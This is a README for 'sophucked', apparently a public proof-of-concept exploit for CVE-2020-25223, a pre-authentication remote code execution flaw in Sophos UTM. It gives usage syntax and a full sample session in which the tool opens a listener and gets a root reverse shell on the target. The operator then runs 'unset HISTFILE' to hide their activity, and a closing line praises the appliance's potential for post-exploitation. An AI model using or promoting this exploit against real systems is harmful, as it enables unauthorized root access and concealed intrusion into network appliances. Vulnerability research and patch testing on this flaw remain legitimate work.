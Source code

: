 # sophucked
CVE-2020-25223 RCE PoC, gets reverse shell. Pre-auth.


## Example Use:
```
# python sophucked.py https://x.x.x.x:4443 x.x.x.x 80
(+) starting handler on port 80
(+) Sending callback to x.x.x.x:80
(+) connection from x.x.x.x
(+) pop thy shell!
bash: no job control in this shell
utm:/var/confd # unset HISTFILE
unset HISTFILE
utm:/var/confd # id
id
uid=0(root) gid=0(root) groups=0(root)
utm:/var/confd # exit
exit
exit
*** Connection closed by remote host ***
# 
```

## Post-ex notes
These have a python interpreter, and actually a very fully featured Linux environment available. Amazing potential for post-exploitation.

Ref: https://www.atredis.com/blog/2021/8/18/sophos-utm-cve-2020-25223
